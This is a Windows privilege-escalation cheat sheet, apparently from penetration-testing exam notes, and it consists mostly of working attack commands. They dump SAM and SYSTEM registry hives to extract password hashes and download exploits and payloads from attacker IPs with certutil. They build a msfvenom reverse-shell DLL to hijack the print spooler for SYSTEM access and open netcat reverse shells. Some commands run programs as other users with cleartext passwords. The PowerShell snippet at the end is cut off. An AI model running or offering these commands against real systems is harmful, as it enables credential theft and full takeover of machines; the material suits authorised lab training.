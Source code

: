 ```jsx
mkdir C:\temp
reg save hklm\sam C:\temp\sam.hive
reg save hklm\system C:\temp\system.hive
# download the files to Kali
impacket-secretsdump -sam sam.hive -system system.hive LOCAL
```

### SeManageVolumePrivilege

```jsx
certutil -urlcache -split -f http://192.168.45.214/SeManageVolumeExploit.exe
\SeManageVolumeExploit.exe

msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=192.168.45.214 LPORT=443 -f dll -o Printconfig.dll
certutil -split -urlcache -split -f http://192.168.45.214/payload/Printconfig.dll
copy Printconfig.dll C:\Windows\System32\spool\drivers\x64\3\
# press Yes

nc -lvnp 443 # setup listener on KALI

# on target - run trigger
powershell
$type = [Type]::GetTypeFromCLSID("{854A20FB-2D44-457D-992F-EF13785D2B51}")
$object = [Activator]::CreateInstance($type)
# should get nt authority\system shell
```

There is another trigger we can use (Report.wer and WerTrigger.exe in /bin in repo):

[GitHub - sailay1996/WerTrigger: Weaponizing for privileged file writes bugs with windows problem reporting](https://github.com/sailay1996/WerTrigger/tree/master)

### Invoke-RunasCs.ps1

Allows to run commands as another user locally

```jsx
certutil -split -urlcache -f http://192.168.45.197/Invoke-RunasCs.ps1
Import-Module .\Invoke-RunasCs.ps1
Invoke-RunasCs svc_mssql trustno1 "C:\xampp\htdocs\uploads\shell64.exe"
```

```jsx
runas /env /profile /user:DVR4\Administrator "C:\temp\nc.exe -e cmd.exe 192.168.118.14 443"
runas /user:oscp\bernie cmd.exe
# With RDP we can run as administrator (cmd) and type cleartext creds of other admin user
```

### Check if service 32/64 bit

It is important so the payload will be correct arch. Use this powershell script:

```jsx
Add-Type -MemberDefinition @'
[DllImport("kernel32.dll", SetLastError = true, CallingConvention = CallingConvention.Winapi)]
[return: MarshalAs(UnmanagedType.Bool)]
public static extern bool IsWow64Process(
    [In] System.IntPtr hProcess,
    [Out, MarshalAs(UnmanagedType.Bool)] out bool wow64Process);
'@ -Name NativeMethods -Namespace Kernel32

Get-Process "FJTWSVIC" | Foreach {
    $is32Bit=[int]0 
    if ([Kernel32.NativeMethods]::IsWow64Process($_.Handle, [ref]$is32Bit)) { 
        "$($_.Name) $($_.Id) is $(if ($is32Bit) {'32-bit'} else {'64-bit'})" 
    } 
```